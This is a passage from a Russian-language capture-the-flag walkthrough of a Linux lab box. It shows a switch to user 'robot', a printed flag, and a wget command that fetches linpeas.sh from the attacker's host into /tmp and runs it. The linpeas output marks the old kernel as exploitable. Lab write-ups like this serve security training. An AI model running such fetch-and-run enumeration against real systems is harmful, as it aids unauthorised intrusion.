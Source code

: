 Повышаюсь до `robot` и читаю второй ключ
```bash
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
robot@linux:~$ cat key-2-of-3.txt 
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

### linpeas
Скачиваю `linpeas.sh` и запускаю
```bash
robot@linux:~$ cd /tmp
robot@linux:/tmp$ sudo -l                                                                                          
[sudo] password for robot:                                                                                         
Sorry, try again.  
robot@linux:/tmp$ which wget
/usr/bin/wget
robot@linux:/tmp$ wget http://192.168.56.106:8888/linpeas.sh -O peas.sh
robot@linux:/tmp$ chmod +x peas.sh
robot@linux:/tmp$ ./peas.sh
```

Смотрю информацию
```bash
                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                                
                               ╚═══════════════════╝                                                               
OS: Linux version 3.13.0-55-generic (buildd@brownie) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015
User & Groups: uid=1002(robot) gid=1002(robot) groups=1002(robot)
Hostname: linux
```

И есть с ходу уязвимость ядра `3.13.0-55-generic`
```bash
                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════                                 
                              ╚════════════════════╝                                                               
╔══════════╣ Operative system
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#kernel-exploits                  
Linux version 3.13.0-55-generic (buildd@brownie) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) ) #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015
Distributor ID: Ubuntu
Description:    Ubuntu 14.04.2 LTS
Release:        14.04
Codename:       trusty
```
